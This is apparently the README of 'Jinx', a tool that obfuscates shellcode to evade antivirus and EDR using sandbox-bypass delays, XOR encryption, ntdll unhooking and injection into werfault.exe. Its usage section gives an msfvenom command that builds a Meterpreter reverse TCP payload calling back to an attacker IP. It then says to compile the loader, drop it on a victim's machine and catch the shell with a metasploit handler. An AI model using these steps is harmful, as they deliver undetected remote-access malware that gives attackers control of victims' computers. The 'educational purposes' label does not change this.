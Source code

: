 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Custom Sleep Function - to bypass sandbox
- Obfuscation - base64 encoding and xor encryption with randomly generated key
- DLL Unhooking - full unhook of ntdll.dll
- Process Injection - injecting the payload to werfault.exe

## Requirements
Jinx requires [Python3](https://www.python.org/) and a C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/)).

## Usage
In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:
```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337 and on the victim's machine execute Jinx.

## Authors and acknowledgment
[RonKon](https://github.com/RonKonis) - Development
<br>
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
